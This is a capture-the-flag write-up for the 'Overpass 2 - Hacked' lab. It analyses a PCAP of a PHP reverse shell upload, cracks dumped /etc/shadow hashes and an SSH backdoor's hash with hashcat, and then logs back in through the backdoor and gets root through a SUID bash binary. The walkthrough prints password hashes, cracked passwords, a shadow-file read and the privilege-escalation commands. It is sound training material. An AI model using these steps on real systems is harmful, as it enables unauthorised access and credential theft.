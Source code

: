 # Overpass 2 - Hacked

## Task 1: Forensics - Analyse the PCAP

> What was the URL of the page they used to upload a reverse shell?

Since we're looking for a URL, we should first use the filter `http` to get HTTP packets. Since the question is looking for an "upload", we should look at "POST" and "PUT" requests. The only "POST" request we have is to `/development/upload.php` so the answer is `/development/`.

![HTTP POST request](./http-post-revshell.png)

> What payload did the attacker use to gain access?

Following the `POST` request, we can see the request body with some PHP code, which is our payload.

![PHP reverse shell payload](./php-revshell.png)

> What password did the attacker use to privesc?

Since the `POST` request uploading the payload is packet 14 and the TCP stream it belongs to (`tcp.stream eq 1`, packets 11-23) didn't include the password we're looking for, we should look at TCP packets after packet 23 or TCP streams after 1. After a bit of trial and error, we can find communication with out reverse shell in TCP stream 3 (`tcp.stream eq 3`).

![Shell with privesc](./shell.png)

In the above shell, we can see the attacker performing privilege escalation with `su james` and the password `whenevernoteartinstant`.

> How did the attacker establish persistence?

Further down in the same TCP stream 3, we can see the attacker downloading and using an SSH backdoor from `https://github.com/NinjaJc01/ssh-backdoor`

![git clone backdoor](./backdoor.png)

> Using the fasttrack wordlist, how many of the system passwords were crackable?

Earlier in TCP stream 3, the attacker dumped some password hashes with `sudo cat /etc/shadow`. In that dump, there are 5 hashes of interest to us:

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Password hashes in `/etc/shadow` that start with `$6$` are sha512crypt hashes and the hashcat mode for that is `1800`. The question asks for the "fasttrack" wordlist which you can get [here](https://github.com/trustedsec/social-engineer-toolkit/blob/master/src/fasttrack/wordlist.txt). To crack the hashes, run:

```sh
hashcat -m 1800 --username hashes fasttrack.txt
```

As a result, we have **4** hashes cracked

```
bee:secret12
paradox:secuirty3
muirland:1qaz2wsx
szymex:abcd123
```

## Task 2: Research - Analyse the code

To get the backdoor, clone it from `https://github.com/NinjaJc01/ssh-backdoor`.

> What's the default hash for the backdoor?

In `main.go`, line 19, we can find the default password hash: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

> What's the hardcoded salt for the backdoor?

On line 108, we see a call to `verifyPass()`, whose 2nd argument is the salt: `1c362db832f3f864c8c2fe05f2002a05`

> What was the hash that the attacker used? - go back to the PCAP for this!

Note that in the backdoor, the hash is provided with the `-a` flag. Looking back at TCP stream 3 in the PCAP, we can see the attack provided their own hash

```sh
$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

> Crack the hash using rockyou and a cracking tool of your choice. What's the password?

We can see in the function `hashPassword()` of the backdoor that SHA512 is used, and the hash is `SHA512(password + hash)`, so the hashcat mode to use is `1710`. To crack the hash, run:

```sh
hashcat -m 1710 hash:salt path/to/rockyou
```

The resulting password is "november16".

## Task 3: Attack - Get back in!

If you look back at the PCAP, TCP stream 3, you'll see at the bottom the line "SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222" telling us that the backdoor is listening on port 2222, which is the default port for the backdoor used by the attacker. Knowing the password, we can just use the same backdoor to get in.

```sh
$ ssh MACHINE_IP -p 2222
```

Using the password "november16", we get an SSH shell as `james`.

One common thing to look for is SUID binaries. To find them, run:

```sh
find / -perm /4000 2>/dev/null
```

This returns, among other binaries, `/home/james/.suid_bash`. Would have been quicker to run `ls -la` in `/home/james`, but oh well. To run bash and keep the escalated shell from the SUID bit, we run it with the `-p` flag.

```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```

And with that, we have rooted the machine!
